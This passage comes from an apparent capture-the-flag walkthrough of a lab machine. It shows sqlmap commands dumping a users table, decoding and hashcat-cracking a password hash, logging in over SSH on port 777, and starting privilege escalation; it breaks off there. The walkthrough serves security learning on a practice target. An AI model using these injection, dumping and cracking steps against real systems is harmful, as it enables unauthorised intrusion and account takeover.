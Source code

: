 $ sqlmap -u "http://10.10.10.3/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -columns

Database: seth
Table: users
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| position | text        |
| user     | text        |
| id       | smallint(6) |
| pass     | text        |
+----------+-------------+

$ sqlmap -u "http://10.10.10.3/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass -dump

[18:07:57] [INFO] fetching entries of column(s) '`position`, `user`, id, pass' for table 'users' in database 'seth'                                                                                                               
Database: seth
Table: users
[2 entries]
+----+--------+------------+---------------------------------------------+
| id | user   | position   | pass                                        |
+----+--------+------------+---------------------------------------------+
| 1  | ramses | <blank>    | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE |
| 2  | isis   | employee   | --not allowed--                             |
+----+--------+------------+---------------------------------------------+
```
## Part 4: Password Cracking
ramses' pass looks like base64, so we decode it with built-in command.
```
$ echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d
c6d6bd7ebf806f43c76acc3681703b81base64: invalid input
```
We get invalid input because string length is not a multiple of 4, but output appears to be an MD5 hash. I add a “=” to the end of the string to remove invalid input response and pipe output to a file called crack_me, and echo for a new line to standard out
```
$ $ echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE=" | base64 -d | tee crack_me && echo
c6d6bd7ebf806f43c76acc3681703b81
```
This looks like an MD5 hash.
```
$ hashcat –m 0 crack_me /usr/share/wordlists/rockyou.txt --force
c6d6bd7ebf806f43c76acc3681703b81:omega
```
## Part 5: Gaining Access
Now that we have a username and password, we try to login to the nonstandard ssh port we learned about during scanning.
```
$ ssh ramses@10.10.10.3 -p 777
//enter password omega
```
We're in!

## Part 6: Privilege Escalation
```
$ cat .bash_history
//noticed procwatch get invoked from /var/www/backup
